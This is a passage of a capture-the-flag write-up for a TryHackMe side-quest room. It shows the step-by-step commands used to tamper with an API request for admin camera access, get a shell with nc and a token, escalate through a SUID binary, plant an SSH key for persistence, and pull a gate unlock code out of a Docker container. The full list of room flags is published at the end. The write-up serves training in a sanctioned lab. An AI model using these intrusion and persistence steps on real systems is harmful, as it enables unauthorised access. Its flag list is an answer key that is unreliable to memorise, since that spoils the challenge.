{: width="2000" height="1000"}

With this in mind, we turn interception on in Burp Suite and return to port `13400`. After selecting any camera, we can intercept the request to `/v1/streams/request`, change the `camera_id` to `cam-admin`, and append `?tier=admin` to the URL.

{: width="2000" height="1000"}

This allows us to fetch the **Psych Ward Exit** camera feed, where we see someone entering a keycode.

{: width="2500" height="1250"}

Returning to the Security Console on port `8080` and selecting the **Psych Ward Exit** door, we enter the keycode observed in the video to unlock the second door and obtain the first part of the second flag.

{: width="2500" height="1250"}

This only provides half of the second flag and tells us to find the other half elsewhere. Going back to Burp Suite and examining the requests for the Psych Ward Exit camera, we notice something unusual in the returned `manifest.m3u8` file: it references several endpoints and an example RTSP URL.

{: width="2000" height="1000"}

```console
#EXT-X-SESSION-DATA:DATA-ID="hopsec.diagnostics",VALUE="/v1/ingest/diagnostics"
#EXT-X-DATERANGE:ID="hopsec-diag",CLASS="hopsec-diag",START-DATE="1970-01-01T00:00:00Z",X-RTSP-EXAMPLE="rtsp://vendor-cam.test/cam-admin"
#EXT-X-SESSION-DATA:DATA-ID="hopsec.jobs",VALUE="/v1/ingest/jobs"
```
{: .wrap }

Checking the `/v1/ingest/diagnostics` endpoint mentioned on the API at port `13401`, we see that `GET` requests are not allowed.

{: width="2000" height="1000"}

Sending a `POST` request results in the server complaining about an `invalid rtsp_url`.

{: width="2000" height="1000"}

So we pass it the RTSP URL from the manifest: `rtsp://vendor-cam.test/cam-admin`. Doing so causes the server to return a `job_id` along with another endpoint.

{: width="2000" height="1000"}

Visiting the `/v1/ingest/jobs/<job_id>` endpoint returned in the previous response reveals an interesting reply: the server returns a **token**, and it references port `13404`.

{: width="2000" height="1000"}

If we connect to port `13404` and send the token, we see that instead of responding with `unauthorized`, the server drops us into a shell as `svc_vidops`. From there, we can read the second part of the second flag in `/home/svc_vidops/user_part2.txt`.

```console
$ nc 10.66.176.90 13404
342176b90b3c454eab4a3b491ba5a3fb
svc_vidops@tryhackme-2404:~$ id
uid=1500(svc_vidops) gid=1500(svc_vidops) groups=1500(svc_vidops)
svc_vidops@tryhackme-2404:~$ wc -c /home/svc_vidops/user_part2.txt
17 /home/svc_vidops/user_part2.txt
```

### Third Flag

Now that we have a shell, we can start looking for privilege-escalation opportunities. Checking for **SUID** binaries, we discover `/usr/local/bin/diag_shell`, which is owned by the `dockermgr` user:

```console
svc_vidops@tryhackme-2404:~$ find / -type f -perm -u=s 2>/dev/null
...
/usr/local/bin/diag_shell
svc_vidops@tryhackme-2404:~$ ls -la /usr/local/bin/diag_shell
-rwsr-xr-x 1 dockermgr dockermgr 16056 Nov 27 16:31 /usr/local/bin/diag_shell
```

Executing it simply spawns a new shell with our **UID** set to `dockermgr`. However, checking the groups for this user reveals something more interesting:

```console
svc_vidops@tryhackme-2404:~$ /usr/local/bin/diag_shell
dockermgr@tryhackme-2404:~$ id
uid=1501(dockermgr) gid=1500(svc_vidops) groups=1500(svc_vidops)
dockermgr@tryhackme-2404:~$ grep dockermgr /etc/group
docker:x:998:ubuntu,dockermgr
dockermgr:x:1501:
```

The `dockermgr` user is a member of the **docker** group, but the current shell spawned by `diag_shell` does not assign us that group. To gain proper access, we can drop an SSH key and log in normally as `dockermgr`.

First, generate an SSH key pair:

```console
$ ssh-keygen -f id_ed25519 -t ed25519
$ cat id_ed25519.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAmEiMY2jqbmNYqFDyq/OMXHXub0XOJvG6/lVI9gNclb kali@kali
```

Then create the `.ssh` directory and write the public key into `/home/dockermgr/.ssh/authorized_keys`:

```console
dockermgr@tryhackme-2404:~$ mkdir /home/dockermgr/.ssh
dockermgr@tryhackme-2404:~$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAmEiMY2jqbmNYqFDyq/OMXHXub0XOJvG6/lVI9gNclb kali@kali' > /home/dockermgr/.ssh/authorized_keys
```
{: .wrap }

Now we can SSH in and confirm we have full `docker` group privileges:

```console
$ ssh -i id_ed25519 dockermgr@10.66.176.90
dockermgr@tryhackme-2404:~$ id
uid=1501(dockermgr) gid=1501(dockermgr) groups=1501(dockermgr),998(docker)
```

Checking the running containers, we can find the one responsible for the **SCADA Terminal** controlling the exit gate on port `9001`. After getting a shell inside it and reviewing the source code, we can find the unlock code for the exit gate.

```console
dockermgr@tryhackme-2404:~$ docker container ls
CONTAINER ID   IMAGE                       COMMAND                  CREATED      STATUS             PORTS                                         NAMES
1cbf40c715f4   side-quest-2-asylum-scada   "python3 /opt/scada/…"   4 days ago   Up About an hour   0.0.0.0:9001->9001/tcp, [::]:9001->9001/tcp   asylum_gate_control

dockermgr@tryhackme-2404:~$ docker exec -it 1cbf40c715f4 bash

scada_operator@1cbf40c715f4:/opt/scada$ cat scada_terminal.py | grep UNLOCK_CODE
...
        UNLOCK_CODE = "7[REDACTED]7"  # The numeric code required to unlock the gate
...
```
{: .wrap }

Finally, returning to the security console on port `8080` and submitting the unlock code for the exit gate allows us to obtain the third and final flag, completing the room.

 

 
 
 

Final Rewards:

Invite Code: Invitation code obtained.

Access URL: Hopper's Invitation https://static-labs.tryhackme.cloud/apps/hoppers-invitation/

thats is all.


## 🔗 Invitation to Next Challenge

**URL:** `https://static-labs.tryhackme.cloud/apps/hoppers-invitation/`

**Invite Code:** `THM{There.is.no.EASTmas.without.Hopper}`


## flags

| Step | Location | Objective | Flag |
|------|----------|-----------|------|
| 1 | Cells / Storage | Unlock Hopper's Cell | `THM{h0pp1ing_m4d}` |
| 2 | Psych Ward Exit | Bypass the Keypad | `THM{Y0u_h4ve_b3en_j3stered_739138}` |
| 3 | Main Corridor | SCADA Terminal Bypass | `THM{p0p_go3s_THe_W3as3l}` |
| 4 | Exit Door | Submit all flags | `THM{There.is.no.EASTmas.without.Hopper}` |


from other:
 
 TUTORIAL:
 https://0xb0b.gitbook.io/writeups/tryhackme/2025/advent-of-cyber-25-side-quest/the-great-disappearing-act
https://jaxafed.github.io/posts/tryhackme-aoc2025_sidequest_one/
https://medium.com/@jalilayed/tryhackme-the-great-disappearing-act-f130e74c3472

